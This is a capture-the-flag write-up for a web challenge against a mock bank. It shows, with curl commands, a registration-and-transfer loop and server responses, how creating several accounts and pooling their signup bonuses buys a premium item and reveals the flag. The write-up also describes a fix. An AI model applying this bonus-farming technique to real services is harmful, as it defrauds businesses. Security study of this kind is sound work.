



# Withdraw Under Pressure

## Metadata

| Field | Value |
| --- | --- |
| Category | `web` |
| Difficulty | Hard |
| Points | 100 |
| Solves | 86 |
| First Blood | simown |

## Challenge Description

```text
Meridian Trust Bank hands every new customer a $100.00 welcome bonus and moves
money between accounts in real time. Real fast, even.

Premium Account Access runs $500.00 and comes with a shiny membership
certificate.
```

## Artifacts

This challenge did not include source code. The useful artifacts are the solver
and evidence captured from the live web application:

```text
solve_withdraw.sh
assets/register.html
assets/register-page.png
assets/receiver-dashboard.html
assets/receiver-dashboard-after.html
assets/dashboard-500.png
assets/store.html
assets/store-premium.png
assets/receiver-balance-before.json
assets/receiver-balance-after.json
assets/buy-before.json
assets/buy-after.json
static/style.css
```

Target used during the solve:

```text
https://b706ffc72d3e4e61.chal.ctf.ae
```

## Recon

I started with normal black-box web recon. The root route redirected to login:

```bash
curl -k -i https://b706ffc72d3e4e61.chal.ctf.ae/
```

Relevant response:

```text
HTTP/1.1 302 FOUND
Server: gunicorn
Location: /login
```

The login page exposed a registration link:

```bash
curl -k -i https://b706ffc72d3e4e61.chal.ctf.ae/login
```

Relevant form:

```html
<form method="POST" action="/login" class="auth-form">
  <input type="text" id="username" name="username">
  <input type="password" id="password" name="password">
</form>
```

The registration page was more important because the challenge text mentioned a
welcome bonus. The page confirmed both the account creation fields and the
initial account balance:

```bash
curl -k -i https://b706ffc72d3e4e61.chal.ctf.ae/register
```

Relevant form:

```html
<form method="POST" action="/register" class="auth-form">
  <input type="text" id="username" name="username" minlength="3" maxlength="20">
  <input type="password" id="password" name="password" minlength="6">
</form>
```

The page also says:

```text
we'll seed it with a $100 welcome balance
```

Browser evidence:



After registering a normal user, the dashboard showed a live balance of
`$100.00` and a transfer form:

```html
<div class="balance-value num" id="balance-display">$100.00</div>
...
<form id="transfer-form" class="inline-form">
  <input type="text" id="to_user" name="to_user">
  <input type="number" id="amount" name="amount">
</form>
```

The dashboard JavaScript showed the important endpoints:

```javascript
fetch('/transfer', { method: 'POST', body: data })
fetch('/balance')
```

The upgrade store page showed the target item and price:

```html
<h3>Premium Account Access</h3>
<span class="store-item-price num">$500.00</span>
```

At this point, the attack surface was not a parser or injection bug. It was an
accounting workflow:

```text
/register    -> creates an account with $100.00
/balance     -> returns current balance
/transfer    -> moves money to another username
/store/buy   -> buys premium_access for $500.00
```

## Vulnerability

The vulnerability is business logic abuse of the welcome bonus. Each newly
created account receives `$100.00`, and that welcome balance can be transferred
to another user. The application does not enforce a meaningful per-person,
per-device, per-payment-method, or abuse-rate limit that prevents a user from
creating several accounts and consolidating all welcome balances into one
recipient.

I did not start from that conclusion. The reasoning was:

1. The prompt emphasized the welcome bonus and the premium item price.
2. The UI confirmed that every new account starts at `$100.00`.
3. Buying premium as a fresh user failed because the item requires `$500.00`.
4. The dashboard exposed a normal transfer workflow.
5. A transfer from one fresh account to another succeeded.
6. Repeating that workflow with additional fresh accounts increased the
   recipient balance predictably.

The control request was buying premium before any transfers:

```bash
curl -k -b receiver.cookie \
  -F 'item=premium_access' \
  https://b706ffc72d3e4e61.chal.ctf.ae/store/buy
```

Response:

```json
{"balance":100.0,"error":"Insufficient funds","required":500.0}
```

That proved the store was enforcing the `$500.00` price. The missing control was
not in `/store/buy`; it was earlier in the business process, where the system
allowed unlimited acquisition and transfer of signup bonuses.

This fits OWASP's business logic testing guidance around function-use limits and
integrity checks: if a function gives a user a benefit, the application needs
server-side controls that prevent the benefit from being reused or aggregated in
a way that violates the intended business rule.

## Exploitation

The exploit chain was:

1. Register one receiver account.
2. Confirm the receiver starts with `$100.00`.
3. Try to buy `premium_access` and confirm it fails at `$100.00`.
4. Register four donor accounts.
5. From each donor session, transfer `$100.00` to the receiver username.
6. Confirm the receiver balance is now `$500.00`.
7. Buy `premium_access` from the receiver session.
8. Read the flag from the purchase response.

The receiver account was created with:

```bash
curl -k -sS -L \
  -c receiver.cookie \
  -b receiver.cookie \
  -d 'username=<receiver>&password=Passw0rd' \
  https://b706ffc72d3e4e61.chal.ctf.ae/register
```

The starting balance was:

```bash
curl -k -sS -b receiver.cookie \
  https://b706ffc72d3e4e61.chal.ctf.ae/balance
```

Response:

```json
{"balance":100.0}
```

Then I created donors and transferred each welcome balance:

```bash
for i in 1 2 3 4; do
  donor="d${i}<random>"
  jar="donor-${i}.cookie"

  curl -k -sS -L \
    -c "$jar" \
    -b "$jar" \
    -d "username=$donor&password=Passw0rd" \
    https://b706ffc72d3e4e61.chal.ctf.ae/register

  curl -k -sS \
    -b "$jar" \
    -F "to_user=<receiver>" \
    -F "amount=100.00" \
    https://b706ffc72d3e4e61.chal.ctf.ae/transfer
done
```

Four donor accounts are required:

```text
receiver initial balance = $100.00
4 donor bonuses          = $400.00
final receiver balance   = $500.00
```

The receiver balance after the transfers was:

```bash
curl -k -sS -b receiver.cookie \
  https://b706ffc72d3e4e61.chal.ctf.ae/balance
```

Response:

```json
{"balance":500.0}
```

Browser evidence:



The store showed the receiver had enough funds for the `$500.00` premium item:



The final purchase request was:

```bash
curl -k -sS \
  -b receiver.cookie \
  -F 'item=premium_access' \
  https://b706ffc72d3e4e61.chal.ctf.ae/store/buy
```

Response:

```json
{"flag":"flag{81be697a0eb4d233}","item":"premium_access","status":"success"}
```

## Technical Details

This challenge is a business logic vulnerability rather than a race condition,
SQL injection, or authentication bypass.

The store correctly checks the current account balance:

```text
balance < 500.00 -> insufficient funds
balance = 500.00 -> premium purchase succeeds
```

The flaw is that the accounting model lets one operator manufacture spendable
funds by creating more identities:

```text
register account A -> A gets $100
register account B -> B gets $100
B transfers $100 to A
repeat until A has $500
```

The intended business invariant should have been something like:

```text
one promotional signup bonus per real customer
promotional funds cannot be freely transferred
or premium purchases cannot be funded by promotional credit alone
```

The observed invariant was weaker:

```text
one promotional signup bonus per account username
all account balances are transferable
premium purchase only checks recipient balance
```

A proper fix would enforce abuse-resistant bonus eligibility on the server side,
track bonus provenance separately from cash balance, restrict promotional funds
from transfers or premium purchases, and add velocity limits/fraud checks for
new account creation and immediate bonus transfers.

## Exploit Artifact

The final artifact is [solve_withdraw.sh](solve_withdraw.sh). It:

1. creates a receiver account;
2. confirms the initial balance;
3. confirms premium purchase fails at `$100.00`;
4. creates four donor accounts;
5. transfers `$100.00` from each donor to the receiver;
6. confirms the receiver balance reaches `$500.00`;
7. buys `premium_access`;
8. prints the flag.

Usage:

```bash
chmod +x solve_withdraw.sh
./solve_withdraw.sh https://b706ffc72d3e4e61.chal.ctf.ae
```

To regenerate HTML/JSON evidence:

```bash
WITHDRAW_EVIDENCE_DIR=assets \
  ./solve_withdraw.sh https://b706ffc72d3e4e61.chal.ctf.ae
```

## Validation

Syntax check:

```bash
bash -n solve_withdraw.sh
```

Initial balance:

```json
{"balance":100.0}
```

Purchase before consolidation:

```json
{"balance":100.0,"error":"Insufficient funds","required":500.0}
```

Balance after four donor transfers:

```json
{"balance":500.0}
```

Final purchase:

```json
{"flag":"flag{81be697a0eb4d233}","item":"premium_access","status":"success"}
```

Final script output:

```text
flag{81be697a0eb4d233}
```

## References

- <https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/10-Business_Logic_Testing/README>
- <https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/10-Business_Logic_Testing/05-Test_Number_of_Times_a_Function_Can_Be_Used_Limits>
- <https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/10-Business_Logic_Testing/03-Test_Integrity_Checks>
- <https://portswigger.net/web-security/logic-flaws>

## Flag

```text
flag{81be697a0eb4d233}
```
